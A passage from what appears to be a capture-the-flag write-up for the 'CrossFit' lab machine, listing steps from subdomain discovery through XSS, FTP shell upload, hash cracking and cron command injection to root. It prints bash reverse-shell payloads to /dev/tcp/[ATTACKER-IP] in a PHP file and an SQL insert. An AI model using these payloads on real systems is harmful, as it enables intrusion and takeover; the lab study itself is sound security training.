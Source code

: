 4. **Subdomain Brute Force via CORS (Origin Header)**
   - Noticed CORS headers (Access-Control-Allow-Origin) validated subdomains on HTTP responses.
   - Switched to ffuf for brute force (`ffuf -u http://[TARGET-IP] -H "Origin: http://FUZZ.crossfit.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mr "Access-Control-Allow-Origin" --ignore-body`), identifying ftp.crossfit.htb.
   - Added to `/etc/hosts`; page showed Apache default but confirmed via Origin header reflection.

5. **Internal Page Fetch via XSS (Proxying Requests)**
   - Used XSS to proxy requests via victim's browser with XMLHttpRequest in chained JS (e.g., fetch ftp.crossfit.htb, base64-encode response, send back to attacker).
   - Retrieved /accounts/create page, revealing username/password form with CSRF token.
   - Extended JS to parse CSRF token, POST to create account (username: ipsec, password: pleasesubscribe), bypassing CSRF.

6. **FTP Access and Shell Upload (www-data)**
   - Logged into FTP as created user (ipsec:pleasesubscribe) using lftp with SSL options.
   - Explored directories: /html (web root), /gymclub, /ftp (Laravel artifacts including .env with DB creds), /development-test (writable).
   - Uploaded PHP reverse shell (ip.php: `<?php system('bash -c "bash -i >& /dev/tcp/[ATTACKER-IP]/9001 0>&1"'); ?>`) to /development-test.
   - Added development-test.crossfit.htb to /etc/hosts; triggered shell via browser, gaining www-data access.

7. **Privilege Escalation to hank**
   - As www-data, ran LinPEAS for enumeration, finding hashes in files (e.g., SHA-512 for hank, bcrypt "password").
   - Cracked hank's hash (powerpuffgirls) using Hashcat (`hashcat -m 1800 hashes/crossfit_sha512 /opt/wordlists/rockyou.txt`).
   - SSH'd as hank (hank@[TARGET-IP]:powerpuffgirls).

8. **Command Injection via Cronjob (to isaac)**
   - As hank (member of admins group), inspected /send_updates.php cronjob (run by isaac every minute).
   - Script used vulnerable MyCartl Shell Command library (escapeArgs=true but ineffective; GitHub issue confirmed RCE).
   - Found FTP admin creds in configs (/etc/vsftpd.conf, pam.d/vsftpd).
   - Logged into FTP as ftp_adm, created file in /messages to trigger loop.
   - Connected to MySQL (crossfit DB creds from .env), inserted malicious email into users table (`INSERT INTO users (email) VALUES ('; bash -i >& /dev/tcp/[ATTACKER-IP]/9001 0>&1;');`).
   - Triggered cronjob, gaining isaac shell.

9. **Privilege Escalation to root (Binary Exploitation)**
   - As isaac (staff group), enumerated with LinPEAS/PSpy/find; found root-run binary /usr/bin/db_message (SUID? No, but cron'd).
   - Copied binary, reversed in Ghidra: Connects to MySQL (hardcoded creds), queries messages table, generates predictable filename in /var/local (time-seeded srand + MD5 of rand + message ID).
   - Wrote C program to predict rand (seed = time(NULL) - (time(NULL) % 60) + 61).
   - Inserted SSH pubkey into messages table columns (split across name/email/message to avoid spaces).
   - Predicted filename, symlinked /var/local/<predicted_md5> to /root/.ssh/authorized_keys (writable by staff).
   - Binary wrote key to symlink; SSH'd as root using corresponding private key.

## Security Gaps and Remediation
